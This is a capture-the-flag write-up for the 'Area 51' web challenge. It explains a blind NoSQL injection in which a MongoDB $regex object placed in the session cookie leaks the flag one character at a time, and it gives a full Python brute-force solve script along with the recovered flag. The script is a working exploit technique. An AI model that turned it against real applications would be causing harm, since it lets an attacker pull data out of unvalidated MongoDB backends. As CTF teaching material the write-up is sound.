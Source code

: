# Area 51
## Description
Area51 Raid Luxury Consultation Services

https://area51.chall.pwnoh.io
## Author
rene
## Resources
`dist.zip` - source code
## Solution
0. By auditing the source code, we can find that program use `mongodb` to communicate with database (so-call `nosql`).
1. Then there are two places we can try to do `nosql injection`: under `api/login` and `/`.
2. Due to the restriction of `if (username && password && typeof username === 'string' && typeof password === 'string') {`, we can't do injection in here.
3. However under `/`, there is no restriction. Therefore, we can pass `{"token": {"$regex": "^bctf{"}}` to `session` in order to leak the flag char by char (If the regex hit, the router will redirect us to `dashborard`, if not, we will go to `index`).
4. Done!  

final solve script:  
```python
import requests, json
from string import digits, ascii_letters

# add payload as session cookie
s = requests.Session()
flag = "bctf{"
while not flag.endswith("}"):
    found = False
    for i in digits + ascii_letters + "_{}":
        s.cookies["session"] = json.dumps({"token": {"$regex":  "^" + flag +i}})
        print(s.cookies["session"])
        r = s.get("https://area51.chall.pwnoh.io/")
        if "Pardon our dust" in r.text:
            # if redirected to dashboard
            flag += i
            found = True
            break
        elif not "Area51 Luxury Services" in r.text:
            # if not redirected to index, it maybe some UB on server (e.g. rate limit or server dead).
            print(flag)
            print(r.text)
            raise Exception("Error")
    if not found:
        print("Panic!!! not found flag")
        break
# {"token": {"$regex": "^bctf{tH3yR3_Us1nG_Ch3M1CaS_T0_MaK3_Th3_F0gS_GAy}"}}
# bctf{tH3yR3_Us1nG_Ch3M1CaS_T0_MaK3_Th3_F0gS_GAy}
print(flag)
```